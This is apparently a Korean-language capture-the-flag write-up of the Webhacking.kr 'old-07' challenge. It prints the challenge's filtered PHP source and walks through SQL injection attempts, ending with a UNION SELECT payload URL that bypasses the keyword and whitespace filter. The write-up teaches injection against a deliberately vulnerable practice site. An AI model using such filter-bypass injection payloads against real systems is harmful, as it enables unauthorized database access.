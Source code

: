 ```yaml
---
title: ["[Webhacking.kr] old-07 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```

## Intro
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
```

쿼리의 result값 중 첫번째 값이 `2`이면 풀리는 문제다.  
중간에 randomization으로 sqli 방어를 시도했지만, 타겟으로 한 쿼리가 나올 때까지 요청을 보내면 된다.  

## Analysis

```sql
select lv from chall7 where lv=($go)
```

`2`, `-`, `+`, `from`, `_`, `=`, `\s`, `*`, `/` 는 사용할 수 없다.  

입력값을 `1^3`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(1^3)
```  
`1 XOR 3`은 `2`이므로, 쉽게 결과가 나올 것이라고 생각했는데
`query error`라는 응답이 왔다.  
`query error`는 쿼리의 결과가 없을 때 발생한다.  
혹시 `^`가 필터링 되거나 문자열로 인식이 되나 싶어서 다른 입력값을 생각해보았다.  

입력값을 `0)or(lv>1`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(0)or(lv>1)
```  
하지만 마찬가지로 `query error`라는 응답이 왔다.  

즉, 테이블에 `lv`이 `1`인 데이터 외에는 없다고 판단할 수 있다.

## Payload

union select문을 사용해서 결과에 2를 넣을 수 있다.  
```
/challenge/web-07/index.php?val=0)union(select(1^3)
```

쿼리는 아래와 같이 완성된다.  

```sql
select lv from chall7 where lv=0)union(select(1^3))
```